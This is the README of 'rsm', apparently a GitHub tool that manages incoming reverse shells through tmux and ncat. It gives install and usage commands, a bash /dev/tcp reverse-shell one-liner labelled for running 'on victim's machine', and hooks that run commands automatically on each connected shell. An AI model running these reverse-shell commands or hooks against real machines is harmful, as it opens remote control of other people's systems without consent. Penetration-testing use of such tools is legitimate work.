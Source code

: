 # rsm

A simple reverse shell manager using `tmux` and `ncat`.

## Install

```shell
BIN_PATH=/usr/local/bin/rsm
curl -o "$BIN_PATH" https://raw.githubusercontent.com/djosix/rsm/master/rsm
chmod +x "$BIN_PATH"
```

If the bash script is not working you can try Python version (translated by gpt-o1-preview)

```shell
BIN_PATH=/usr/local/bin/rsm
curl -o "$BIN_PATH" https://raw.githubusercontent.com/djosix/rsm/master/rsm.py
chmod +x "$BIN_PATH"
```

## Quick Start

1. Listen on a port and attach to rsm tmux session:
    ```shell
    rsm 14641
    ```
    > `rsm` creates it's own tmux socket, so it will not mess up with your default tmux sessions.

2. On victim's machine, launch a reverse shell:
    ```shell
    bash -c 'bash -i >& /dev/tcp/127.0.0.1/14641 0<&1'
    ```
3. Once it connects back to the `rsm` port, `rsm` will create a new tmux window to handle the TCP connection. You can simply switch to that window and start typing commands.

## Usage

`$ rsm --help`

```
Usage: COMMAND [OPTIONS]
Commands:
    rsm PORT            Start a reverse shell listener on PORT
    rsm d[etached] PORT Start a detached reverse shell listener on PORT
    rsm l[ist]          List active rsm listeners
    rsm i[nfo] PORT     Show details of listener on PORT
    rsm i[nfo]          Show details of all rsm listeners
    rsm s[top] PORT     Stop a rsm listener on PORT
    rsm s[top]          Stop all rsm listeners
    rsm a[ttach] PORT   Attach to a rsm session listening on PORT
    rsm a[ttach]        Attach to the last rsm session
    rsm c[lean] PORT    Clean sockets for PORT
    rsm c[lean]         Clean all sockets
    rsm h[elp]          Show this help message
Options:
    -d, --dir DIR       Where the rsm sockets be stored (default: /tmp/.rsm)
    -n, --max-conn N    Maximum number of connections (default: 128)
    -r, --max-recv N    Maximum receiving MB (default: 64)
    -c, --hook CMD      Command to eval when a client connects
    -w, --with CMD      Command to eval when rsm starts
    --ncat-flags FLAGS  Additional command line flags for ncat
    --tmux-flags FLAGS  Additional command line flags for tmux
    -h, --help          Show this help message
```

## Connection Hooks

You are able to run custom command to handle a client connection:

```shell
rsm detached 12345 --hook 'echo "Hello, you are from ${IP}:${PORT}!"; exit'

ncat 127.0.0.1 12345
# Hello, you are from 127.0.0.1:50920!
```

With this feature, you can run commands automatically when a reverse shell connects back:

```shell
rsm detached 12345 --hook "echo 'echo SomeContent > \$HOME/SomeFile; exit'; exit"

bash -c 'bash -i >& /dev/tcp/127.0.0.1/12345 0<&1'
cat ~/SomeFile # SomeContent
```
